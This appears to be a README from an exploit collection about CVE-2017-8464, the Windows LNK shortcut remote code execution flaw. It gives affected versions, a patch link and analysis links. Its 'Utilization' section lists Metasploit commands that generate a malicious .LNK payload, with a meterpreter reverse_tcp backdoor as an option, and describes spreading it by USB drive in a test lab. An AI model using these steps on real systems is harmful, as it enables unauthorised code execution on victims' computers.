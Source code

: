 ### CVE-2017-8464

#### Describe

Windows Shell in Microsoft Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8, Windows 8.1, Windows Server 2012 Gold and R2, Windows RT 8.1, Windows 10 Gold, 1511, 1607, 1703, and Windows Server 2016 allows local users or remote attackers to execute arbitrary code via a crafted .LNK file, which is not properly handled during icon display in Windows Explorer or any other application that parses the icon of the shortcut. aka "LNK Remote Code Execution Vulnerability."


#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested |
| ------------------- | ---------------- | ------- | ------ | ------ |
| Windows 10          | x86/x64          |         |        |        |
| Windows 10          | x86/x64          | 1511    |        |        |
| Windows 10          | x86/x64          | 1607    |        |        |
| Windows 10          | x86/x64          | 1703    |        |        |
| Windows 7           | x86/x64          |         | SP1    |        |
| Windows 8.1         | x86/x64          |         |        |        |
| Windows Rt 8.1      |                  |         |        |        |
| Windows Server 2008 | x86/x64          |         | SP2    |        |
| Windows Server 2008 | x86/x64          | R2      | SP1    |        |
| Windows Server 2012 |                  |         |        |        |
| Windows Server 2012 |                  | R2      |        |        |
| Windows Server 2016 |                  |         |        |        |

#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-8464
```

#### Utilization

Test Machine Windows 7 SP1 X64, use MSF to use

```
use exploits/windows/fileformat/cve_2017_8464_lnk_rce
set payload windows/x64/exec #If the x86 uses Windows / Exec, you can also set the back door windows/x64/meterpreter/reverse_tcp
set cmd cmd.exe
set EXITFUNC thread
run
```

Generate files

![CVE-2017-8464_win7_x86_msf](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2017-8464_win7_x86_msf.png)

Run the command to copy it into the test directory

```
cp -r /root/.msf4/local/ /root/test
```

![CVE-2017-8464_win7_x86_msf2](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2017-8464_win7_x86_msf2.png)

Then copy all of these files to the U disk, then plug in the computer.

The test machine is a virtual machine, so you need to make a patch ** KB2533623 ** and a driver**Intel(R)_USB_3.0_eXtensible_Host_Controller_Driver_5.0.4.43_v2**，Then the USB is set to 3.0, and the patch of Windows7 is here.

```
https://github.com/Ascotbe/WinKernelhub/tree/master/Patch
```

GIF map is as follows

![1](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2017-8464_win7_x86.gif)

#### Analyze
- https://my.oschina.net/u/4310658/blog/3695267
- https://www.anquanke.com/post/id/202705
- https://wohin.me/0dayan-quan-external-stuxnet-cve-2017-8464/
- https://blog.csdn.net/baidu_41647119/article/details/103875396
- http://www.vxjump.net/files/vuln_analysis/cve-2017-8464.txt